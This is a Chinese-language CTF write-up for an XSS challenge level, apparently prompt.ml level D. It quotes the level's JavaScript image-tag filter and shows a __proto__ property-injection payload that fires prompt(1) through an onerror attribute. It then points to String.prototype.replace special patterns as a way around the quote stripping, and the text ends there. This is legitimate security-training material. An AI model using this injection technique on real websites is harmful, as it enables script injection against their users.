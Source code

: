 ```
//input参数是这里进入的
try {
        // 举例输入的参数 {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        //将input字符串转换成js数据
        var data = JSON.parse(input);
        获得定死的source
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // 如果存在 字母数字下划线 / . 以外的就删除sourse 
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        消除 "
        var source = config.source.replace(/"/g, '');
        // 插入sourse
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}  
```

这题的绕过需要`Object.prototype.__proto__`这个属性，这个属性已经不被建议用在实际代码中。

看下面的例子是如何利用的。

![D_1](/img/xss/prompt_ml/levelD_001.png)

当原来的值被删除时,可以用`__proto__`属性来赋值。可以构造形如

`{"source":"*","__proto__":{"source":""onerror=prompt(1)>"}}`来使原来的sources失效,而使用自己写入的来突破。

但是第二次过滤的时候消除了`”`，想办法找个替代双引号的方法。

这里的技巧为`String.prototype.replace()`支持特殊的`pattern`:

![D_2](/img/xss/prompt_ml/levelD_002.png)

